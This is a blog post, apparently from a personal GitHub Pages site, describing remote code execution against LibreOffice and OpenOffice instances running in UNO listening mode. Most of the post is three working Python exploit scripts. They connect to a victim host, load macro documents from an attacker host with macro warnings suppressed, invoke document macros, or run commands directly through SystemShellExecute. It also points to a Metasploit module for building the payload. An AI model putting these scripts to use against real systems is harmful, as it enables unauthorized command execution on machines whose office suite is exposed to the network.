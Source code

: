 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). 

This mode can be used on any supported platform (Windows, Linux, Mac OS X).

Everything you need is start your office program with the following command:

`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to interact with UNO API with python3-uno package.

There are several ways to execute command on remote system using UNO in LibreOffice. 

I'll show you the following three:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.
![Very High](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/macro_high.png)



## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. 
You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself using *Shell* function of Basic language.

![Custom macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/custom_macro.png)
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.
![Open with macro](https://raw.githubusercontent.com/byurinov/byurinov.github.io/master/images/open_with_macro.png)


File can be accessed locally as well as remotely.


```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)

inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN

inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple([]))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* API interface. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue

local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



